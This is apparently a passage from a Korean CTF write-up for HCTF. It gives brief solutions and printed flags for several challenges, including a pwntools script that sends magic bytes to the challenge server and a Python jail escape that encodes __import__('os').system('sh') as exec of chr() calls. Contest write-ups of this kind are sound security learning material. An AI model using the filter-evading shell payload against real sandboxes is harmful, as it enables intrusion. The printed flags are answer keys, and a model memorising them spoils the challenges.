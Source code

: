 .result파일의 확장자를 png로 바꾸고 이미지 열면 FLAG가 있다.

![](https://user-images.githubusercontent.com/32904385/69045987-55612700-0a3b-11ea-86cf-cd0c10e0e94a.png)

**FLAG : `HCTF{Se3d_T1mE_15_D4nG3rouS}`**

<br />

## NonPrintable

입력 값하고 `\xde\xed\xbe\xef` 이 같으면 플래그 파일을 읽을 수 있다.

```python
from pwn import *

p = remote('prob.hctf.icewall.org',10102)
p.sendlineafter('>> ','\xde\xed\xbe\xef')
p.interactive()
```

**FLAG : `HCTF{beef steak is delicious}`**

<br />

## Python Jail

`python -c` 로 실행시켜주는데 `exec` , `chr` 이 안 막혀있어서 이를 이용해서 풀었다. 아래 페이로드 이용해서 풀었다.

```python
a="__import__('os').system('sh')"
payload = 'exec(' + ''.join('chr('+str(ord(a[i]))+')+' for i in range(len(a)))[:-1] + ')'
```

![](https://user-images.githubusercontent.com/32904385/69047436-7414ed00-0a3e-11ea-99df-5108fe2c5772.png)

**FLAG : `HCTF{getattr_is_very~~~~very~~~~nice!!}`**

<br />

## Take It

힌트가 있길래 딱보면 `robots.txt` 이용해서 푸는거구나 생각하고 들어갔는데 HCTF-FLAG.txt이 있길래 `http://www.nowtakeit.com/HCTF-FLAG.txt` 들어갔는데 플래그가 있었다.

![](https://user-images.githubusercontent.com/32904385/69047552-b9d1b580-0a3e-11ea-8a5c-195d4cda94d1.png)

**FLAG : `HCTF{Congratulations_10000_Points_for_First_Solver!!}`**

<br />

# Reversing

매우 복잡한 그래프이다. 자세히 보면 인덱스의 글자가 맞는지 아닌지 비교해주는 분기들이다. 인덱스의 값들을 잘 맞추면 된다.

![](https://user-images.githubusercontent.com/32904385/69048335-960f6f00-0a40-11ea-8eaf-ef5b4a6a89e8.png)
